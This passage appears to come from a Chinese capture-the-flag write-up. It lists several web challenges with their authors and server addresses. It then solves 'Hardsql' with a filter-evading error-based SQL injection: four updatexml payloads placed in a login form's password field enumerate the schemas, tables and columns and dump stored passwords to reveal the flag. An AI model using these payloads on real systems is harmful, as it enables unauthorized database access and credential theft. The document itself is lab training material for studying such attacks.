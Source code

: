 
<br/>

### 13.神秘的三叶草

> 出题人：cl4y
> 柳暗花明
> 地址:http://118.25.14.40:8108/

<br/>

### 14.Eval evil code

> 出题人：Ayrain
> Lamber是个老实人，他会执行你给他的代码。
> 地址:http://148.70.59.198:34386/

<br/>

### 15.Jiang‘s Secret

> 出题人：cl4y
> 我在那放了一个秘密！
> 地址:http://118.25.14.40:8106/

<br/>

### 16.Hardsql

> 出题人：cl4y
> 信安之路，任重道远…
> 地址:http://118.25.14.40:8103/
> hint:sql报错注入

因为对union过滤，所以不能用联合查询了，or|and|substr|if|hex|mid|char|等等都进行了过滤，这里只能用报错注入，updatexml，extractvalue都可以
```
# 数据库名
username=admin&password=admin'^updatexml(1,concat(0x7e,(select(group_concat(schema_name))from(information_schema.schemata)),0x7e),1)#

# 表名
username=admin&password=admin'^updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like'geek'),0x7e),1)#

# 列名
username=admin&password=admin'^updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like'H4rDsq1'),0x7e),1)#

# 字段
username=admin&password=admin'^updatexml(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)),0x7e),1)#
```
得到flag
```
Syc{You_c4n_erRor_1njecti0n}
```
